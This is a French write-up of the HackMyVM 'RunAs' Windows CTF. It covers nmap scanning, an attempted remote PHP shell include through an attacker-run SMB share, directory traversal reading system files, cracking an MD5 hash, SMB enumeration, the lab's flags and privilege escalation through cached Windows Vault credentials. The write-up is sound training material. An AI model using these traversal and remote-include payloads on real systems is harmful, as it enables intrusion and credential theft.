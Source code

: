 ```yaml
---
title: "Solution du CTF RunAs de HackMyVM.eu"
tags: [CTF,HackMyVM,Windows]
---
```


### La marmotte et le papier d'alu

RunAs est un CTF Windows disponible sur HackMyVM.eu.

L'obtention de l'accès initial n'a aucune forme de réalisme. Passé ça, c'est plutôt simple.

```console
$ sudo nmap -T5 -sCV --script vuln -p- 192.168.56.118
Pre-scan script results:
|_broadcast-avahi-dos: ERROR: Script execution failed (use -d to debug)
Nmap scan report for 192.168.56.118
Host is up (0.00031s latency).
Not shown: 65523 closed tcp ports (reset)
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Apache httpd 2.4.57 ((Win64) PHP/7.2.0)
|_http-trace: TRACE is enabled
| vulners: 
|   cpe:/a:apache:http_server:2.4.57: 
|       95499236-C9FE-56A6-9D7D-E943A24B633A    10.0    https://vulners.com/githubexploit/95499236-C9FE-56A6-9D7D-E943A24B633A  *EXPLOIT*
|       2C119FFA-ECE0-5E14-A4A4-354A2C38071A    10.0    https://vulners.com/githubexploit/2C119FFA-ECE0-5E14-A4A4-354A2C38071A  *EXPLOIT*
|       CVE-2024-38476  9.8     https://vulners.com/cve/CVE-2024-38476
|       CVE-2024-38474  9.8     https://vulners.com/cve/CVE-2024-38474
--- snip ---
|       CNVD-2024-36395 7.3     https://vulners.com/cnvd/CNVD-2024-36395
|       CVE-2024-24795  6.3     https://vulners.com/cve/CVE-2024-24795
|       CVE-2024-39884  6.2     https://vulners.com/cve/CVE-2024-39884
|       CVE-2023-45802  5.9     https://vulners.com/cve/CVE-2023-45802
|_      CVE-2024-36387  5.4     https://vulners.com/cve/CVE-2024-36387
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-server-header: Apache/2.4.57 (Win64) PHP/7.2.0
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
| http-enum: 
|_  /: Root directory w/ directory listing
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-ccs-injection: No reply from server (TIMEOUT)
5357/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-dombased-xss: Couldn't find any DOM based XSS.
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
49157/tcp open  msrpc              Microsoft Windows RPC
MAC Address: 08:00:27:17:46:E4 (Oracle VirtualBox virtual NIC)
Service Info: Host: RUNAS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
```

On a donc une machine Windows 7 avec du SMB, du RDP (3389) ainsi qu'un serveur Apache 2.4.

La page d'index nous invite à remplir un paramètre dans l'URL :

```console
	<h1>There is no going back!</h1>
	<h2>?file=</h2>
```

Peut-être une faille d'inclusion ? Je mets en place un serveur SMB et j'y place un shell PHP :

```bash
docker  run -it -d --name samba -p 139:139 -p 445:445 -v /tmp/share:/share dperson/samba -s "myshare;/share;yes;no;yes"
```

Je provoque ensuite le chargement :

```
http://192.168.56.118/index.php?file=\\192.168.56.1\myshare\shell.php&cmd=dir
```

Mais c'est la déception : Je vois mon code PHP au lieu qu'il soit interprété.

Si le path donné contient un octet nul, on peut provoquer un message d'erreur (par exemple avec `http://192.168.56.118/index.php?file=/proc/self/fd/0%00`) :

```html
<b>Warning</b>:  file_exists() expects parameter 1 to be a valid path, string given in <b>C:\Apache24\htdocs\index.php</b> on line <b>20</b><br />
File not found!        </div>
```

Continuons de provoquer une erreur avec un problème de permissions (lecture de `c:\windows\System32\config\sam`) :

```html
<b>Warning</b>:  file_get_contents(c:\windows\System32\config\sam): failed to open stream: Resource temporarily unavailable in <b>C:\Apache24\htdocs\index.php</b> on line <b>21</b><br />
```

Cela confirme qu'il n'y a pas d'inclusion.

Que faire alors ? J'ai chargé `C:\Apache24\logs\access.log`  et on voit quelques fichiers qui ont été demandés depuis la machine elle-même.

```html
            <pre>::1 - - [06/Oct/2024:23:10:19 +0300] &quot;GET / HTTP/1.1&quot; 200 46<br />
::1 - - [06/Oct/2024:23:14:57 +0300] &quot;GET / HTTP/1.1&quot; 200 251<br />
::1 - - [06/Oct/2024:23:15:02 +0300] &quot;GET /index.php HTTP/1.1&quot; 200 1183<br />
::1 - - [06/Oct/2024:23:15:02 +0300] &quot;GET /styles.css HTTP/1.1&quot; 200 834<br />
--- snip ---
::1 - - [07/Oct/2024:00:04:23 +0300] &quot;GET /index.php?file=C:/Windows/win.ini HTTP/1.1&quot; 200 972<br />
::1 - - [07/Oct/2024:00:09:52 +0300] &quot;GET /index.php?file=C:/Windows/win.ini HTTP/1.1&quot; 200 1024<br />
::1 - - [07/Oct/2024:00:09:52 +0300] &quot;GET /styles.css HTTP/1.1&quot; 304 -<br />
```

Sans doute plus par désarroi que par intuition, j'ai chargé à mon tour le fichier `win.ini` et la première ligne était étrange :

```
; MD5-runas-b3a805b2594befb6c846d718d1224557
```

J'ai passé le hash sur `crackstation.net` qui m'a répondu `yakuzza`.

### Steak haché

Allons au délà que cet épisode de fumage de moquette. Il n'y a pas d'utilisateur `yakuzza` mais un utilisateur `runas`, second indice de la même ligne.

Ce dernier peut lister les partages, mais il n'y a pas d'accès en écriture :

```console
$ nxc smb 192.168.56.118 -u runas -p yakuzza --shares
SMB         192.168.56.118  445    RUNAS-PC         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:RUNAS-PC) (domain:runas-PC) (signing:False) (SMBv1:True) 
SMB         192.168.56.118  445    RUNAS-PC         [+] runas-PC\runas:yakuzza 
SMB         192.168.56.118  445    RUNAS-PC         [*] Enumerated shares
SMB         192.168.56.118  445    RUNAS-PC         Share           Permissions     Remark
SMB         192.168.56.118  445    RUNAS-PC         -----           -----------     ------
SMB         192.168.56.118  445    RUNAS-PC         ADMIN$                          Uzak Yönetici
SMB         192.168.56.118  445    RUNAS-PC         C$                              Varsayılan değer
SMB         192.168.56.118  445    RUNAS-PC         IPC$                            Uzak IPC
```

Toutefois, déjà à ce stade, on peut utiliser le directory traversal pour récupérer les flags, soit :

`C:\Users\runas\desktop\user.txt`  `HMV{User_Flag_Was_A_Bit_Bitter}`

`C:\Users\administrator\desktop\root.txt`  `HMV{Username_Is_My_Hint}`

L'accès qui nous reste désormais, c'est le RDP, et il fonctionne !

Vu le nom du CTF, on se doute que l'on va utiliser la commande `runas` avec des identifiants gardés dans le coffre de Windows, ce qui est expliqué chez [HackTricks]([Windows Local Privilege Escalation - HackTricks](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#credentials-manager--windows-vault)).

![RunAs cached credentials](/assets/img/hackmyvm/runas_hmv.png)

On aurait aussi pu s'en rendre compte à l'aide de winPEAS (version `.bat` utilisée ici) :

```console
[*] CREDENTIALS

 [+] WINDOWS VAULT
   [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#windows-vault

Depolanan ge�erli kimlik bilgileri:

    Hedef: Domain:interactive=RUNAS-PC\Administrator
    T�r: Etki Alan� Parolas� 
    Kullan�c�: RUNAS-PC\Administrator
```

Ou tout simplement avec `cmdkey` :

```console
C:\Users\runas>cmdkey /list

Depolanan ge�erli kimlik bilgileri:

    Hedef: Domain:interactive=RUNAS-PC\Administrator
    T�r: Etki Alan� Parolas� 
    Kullan�c�: RUNAS-PC\Administrator
```

